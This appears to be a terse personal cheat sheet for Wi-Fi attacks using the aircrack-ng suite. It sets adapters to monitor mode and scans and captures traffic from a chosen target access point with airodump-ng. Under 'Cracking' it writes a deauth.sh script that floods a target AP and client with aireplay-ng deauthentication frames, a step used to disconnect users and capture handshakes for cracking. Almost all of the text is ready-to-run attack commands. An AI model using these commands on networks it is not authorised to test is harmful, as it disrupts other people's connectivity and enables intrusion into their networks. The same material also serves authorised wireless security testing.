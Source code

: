 ## General

### AP `a`
```bash
1 ap
2 sta
3 ap+sta
```

### Filter `s`
```bash
10 first seen
```

## Driver
```bash
https://github.com/aircrack-ng/rtl8812au
```

## Settings
```bash
ip link set wlan0 down
iw dev wlan0 set type monitor
ip link set wlan0 up

ip link set wlan1 down
iw dev wlan1 set type monitor
ip link set wlan1 up
```

## Monitor

### Generic
```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime --band a wlan0
airodump-ng --manufacturer --beacons --showack --wps --uptime --band bg wlan0
```

```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --write-interval 1 --output-format csv --write sessions \
            --band bg wlan0
```

### Target
```bash
cat > target.sh << "EndOfMessage"
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --write-interval 5 --output-format pcap --write target \
            --bssid CHANGEME --channel 1 wlan0
EndOfMessage

chmod +x target.sh
```

## Cracking
```bash
cat > deauth.sh << "EndOfMessage"
iwconfig wlan1 channel $1

aireplay-ng -0 99 -D -a $2 -c $3 wlan1
EndOfMessage

chmod +x deauth.sh
```

## Kill View
```bash
kill -9 `ps aux | grep -i aircrack | awk '{print $2}'`
```
